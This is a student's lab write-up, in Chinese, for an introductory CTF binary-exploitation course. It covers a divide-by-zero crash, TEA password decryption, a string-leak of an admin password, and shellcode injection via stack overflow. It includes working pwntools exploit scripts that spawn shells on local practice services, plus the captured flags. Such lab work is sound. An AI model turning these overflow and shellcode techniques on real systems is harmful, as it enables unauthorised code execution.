






# CTF101 PWN Lab1

## 3240102120

### Task1

nocrash。这个题目比较简单。观察可以发现这个程序大概是希望把一个数进行进制转换，但是采用了自定义的`pow`，且后面进制转换语句里面出现了`j=a/pow(b,i-1)`这句，这样，如果b=0，进入这一句时a就会除0，从而爆破。因此连接容器后只需要输入任意数+0即可：



拿到flag: `AAA{pr0GraM_C4n_ea5ilY_crAsH}`

### Task2

loginme。这个题分两部分，一个是user一个是admin。前者感觉更像是misc的题（或者说crypto？），因为已经给定了VERIFY和KEY，并且根据源码是进行了Tea加密，所以可以直接上python脚本解密user密码：

```python
from struct import unpack, pack

VERIFY = b"\x27\x85\x56\x4a\xb2\x29\xe7\xf1\xa6\xc0\xab\xd7\xd6\x82\xb8\x1b\x4c\x43\xb0\x33\x0d\xb2\xbe\xb8\x10\x7a\x73\x30\x0a\xf3\xff\x59"
KEY = b"\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa"
plaintext = b""
def decode(block):
    v0, v1 = unpack("<2I", block)
    k = unpack("<4I", KEY)
    delta = 0x9e3779b9
    sum = 0xC6EF3720
    for _ in range(32):
        v1 = (v1 - (((v0 << 4) + k[2]) ^ (v0 + sum) ^ ((v0 >> 5) + k[3]))) & 0xFFFFFFFF
        v0 = (v0 - (((v1 << 4) + k[0]) ^ (v1 + sum) ^ ((v1 >> 5) + k[1]))) & 0xFFFFFFFF
        sum = (sum - delta) & 0xFFFFFFFF
    return pack("<2I", v0, v1)
plaintext=[decode(VERIFY[i:i+8]) for i in range(0, len(VERIFY), 8)]
print("".join([x.decode() for x in plaintext]))
```

得到user的密码`I_am_very_very_strong_password!!`，长度为31。而源码中会把\n当作0处理，因此总长度为32。于是nc之后输入user、32、上述密码即可得到flag1：`flag1: AAA{Oh_D1rTy_sta`



再破admin的密码。admin的密码会读入password_verify然后验证password_verify和password是否相同。之后的wrong_password区会输出用户输入的password。但是是使用%s方式输出，因此只要不到\0就会持续输出，而username、password和password_verify是相邻地址，因此只需要构造一个非\0结尾的密码即可溢出到password_verify，另外还需要使username填满32位，所以username要构造admin\x00+AAAAA...到32，密码则填充32个B：

```python
from pwn import *

context.log_level = 'debug'
p = remote('127.0.0.1', 10045)
payload = b'admin\x00' + b'A' * (32 - len(payload))
p.sendlineafter('username\n', payload)
p.sendlineafter('length of your password\n', b'32')
p.send(b'B' * 32)
p.interactive()
```

这样，就能在终端得到admin的密码



然后只要interact即可拿到shell，执行`ls -a`发现目录下有`flag2`，`cat flag2`拿到第二段flag：



得到最终flag: `AAA{Oh_D1rTy_staCK_Ne3d_C1a4n}`

### Task3

这个题比较综合了，首先是要完成delegate task，看源码是要直接写进内存的，所以要提前编译成字节传入，这个不得不借助python了：

```python
from pwn import *
context.arch = 'amd64'

p = remote('127.0.0.1', 12345)

opcode=["add", "sub", "and", "or", "xor"]
codes=[asm(f"mov rax, rdi; {i} rax, rsi; ret") for i in opcode]
for index in range(5):
    p.recvuntil(f"{opcode[index].upper()}\n")
    p.send(codes[index].ljust(0x100, b'\x90'))  # padding 到 0x100
    

    
try:
    print(p.recv(timeout=2).decode())
except:
    print("!!!crash!!!")
p.close()


```

这里是将rdi和rsi两个寄存器做opcode，得到结果存入rax然后返回。每次程序都会给定操作的大写，所以只要收到操作大写为止之后发送数据即可，以下是输出：

```console
alabtnt@AlabTNTMAGIC:/mnt/d/ctf$ python3 injectme.py
[+] Opening connection to 127.0.0.1 on port 12345: Done
/mnt/d/ctf/injectme.py:9: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil(f"{opcode[index].upper()}\n")
Soooooooo wonderful, here is your first part of flag:
AAA{SheL1c0de_T0
[*] Closed connection to 127.0.0.1 port 12345
```

于是得到了第一段flag `AAA{SheL1c0de_T0`

接下来完成第二段。shellcode的学习比较简单，原理是通过数据溢出使机器码得以通过漏洞而在目标服务上执行，进而获得shell或者越权sudo。编写方法就是利用漏洞压入提前写好的汇编的机器码。然后完成远程shell。

这里遇到了一点困难，根据pwn的网上教程指引，应该用shellcraft就能自动获得写好的shellcode，但是虽然获得了EOF，但是会出现no-reaction的情况：



这个问题有点费解。不过感觉应该是因为五段都过了直接流掉了。试试从第一个delegate就注入shellcode：

```python
from pwn import *
context.arch = 'amd64'

p = remote('127.0.0.1', 12345)
code=shellcraft.sh()
p.send(asm(code).ljust(0x100, b'\x90'))
p.interactive()
```

于是得到了shell并且拿到了flag（



得到flag: `AAA{SheL1c0de_T0_9E7_All_F1ag5}`

（啊呀，气死我哩，花了两个小时尝试怎么注入成功，郁郁睡觉，早上起来还用AI帮我写了个脚本，也不好使。晚上吃饭灵光乍现根本不回答问题直接注入结果就直接拿到shell了）

### Task4

flag:`AAA{R37_t0_guEs5_shE1Lc0d3_poS}`

这个拿的太顺了所以报告还没写先把flag端上来

题目大概意思就是要stack overflow，但是跳转地址是0x20000+MRND是环境变量，好在MRND就八个，可以爆，所以写这么个程序

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'error'

offset = 72
code = asm("""
    mov rdi, 1
    lea rsi, [rip+ok]
    mov rdx, 3
    mov rax, 1
    syscall
    mov eax, 60
    xor edi, edi
    syscall
ok:
    .ascii "OK\\n"
""")

for i in range(8):
    try:
        addr=0x20000+i*0x1000
        p = remote('127.0.0.1', 12345)
        p.sendafter("your name: ", code)
        payload = b"A" * offset + p64(addr)
        p.sendlineafter("overflow me~", payload)
        res = p.recv()
        if b"OK" in res:
            print(f"got at {hex(addr)}")
            break
        p.close()
    except Exception as e:
        print(i,e)

```

执行之后可以输出got at偏移地址，这里发现偏移地址是+5，所以可以直接写爆破：

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

offset = 72
code = asm(shellcraft.sh())

addr = 0x25000

p = remote('127.0.0.1', 12345)

p.sendafter("your name: ", code)
payload = b"A" * offset + p64(addr)
p.sendlineafter("overflow me~", payload)
p.interactive()
```

然后就能拿到shell了，再`ls -a` `cat flag`小连招直接送走


